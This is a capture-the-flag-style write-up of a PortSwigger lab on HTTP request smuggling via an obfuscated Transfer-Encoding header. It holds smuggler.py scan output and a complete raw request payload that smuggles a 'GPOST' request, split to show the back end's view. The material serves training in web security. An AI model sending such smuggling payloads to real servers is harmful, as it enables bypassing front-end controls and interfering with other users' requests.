

# [Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)

## Lab

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Detect TE.CL

- smuggler.py: fail

```bash
┌──(kali㉿kali)-[~/Documents/tools]
└─$ python smuggler/smuggler.py -u https://0a5500e30496a14ac5b52d97002f0014.web-security-academy.net/                                      

  ______                         _                                                                                                                                                                                                         
 / _____)                       | |                                                                                                                                                                                                        
( (____  ____  _   _  ____  ____| | _____  ____                                                                                                                                                                                            
 \____ \|    \| | | |/ _  |/ _  | || ___ |/ ___)                                                                                                                                                                                           
 _____) ) | | | |_| ( (_| ( (_| | || ____| |                                                                                                                                                                                               
(______/|_|_|_|____/ \___ |\___ |\_)_____)_|                                                                                                                                                                                               
                    (_____(_____|                                                                                                                                                                                                          
                                                                                                                                                                                                                                           
     @defparam                         v1.1                                                                                                                                                                                                
                                                                                                                                                                                                                                           
[+] URL        : https://0a5500e30496a14ac5b52d97002f0014.web-security-academy.net/
[+] Method     : POST
[+] Endpoint   : /
[+] Configfile : default.py
[+] Timeout    : 5.0 seconds
[+] Cookies    : 1 (Appending to the attack)
[nameprefix1]  : OK (TECL: 0.91 - 200) (CLTE: 0.99 - 200)                                           
[tabprefix1]   : OK (TECL: 0.91 - 200) (CLTE: 0.94 - 200)                                                                                                                                                                                  
[tabprefix2]   : OK (TECL: 0.89 - 200) (CLTE: 0.94 - 200)                                                               ...          
[endspacexn-ff]: OK (TECL: 1.05 - 400) (CLTE: 0.94 - 400)
┌──(kali㉿kali)-[~/Documents/tools]
└─$
```

- burpsuite `HTTP request smuggler` extension:



## Solutions

```http
POST / HTTP/1.1^M$
Host: 0a5500e30496a14ac5b52d97002f0014.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 4^M$
Transfer-Encoding: chunked^M$
Transfer-encoding: identity^M$
^M$
29^M$
GPOST / HTTP/1.1^M$
Content-Length: 20^M$
^M$
X^M$
0^M$
^M$
```

backend:

  ```http
  POST / HTTP/1.1^M$
  Host: 0a5500e30496a14ac5b52d97002f0014.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 4^M$
  Transfer-Encoding: chunked^M$
  Transfer-encoding: identity^M$
  ^M$
  29^M$
  ```

  ```http
  GPOST / HTTP/1.1^M$
  Content-Length: 20^M$
  ^M$
  X^M$
  0^M$
  ^M$
  ```
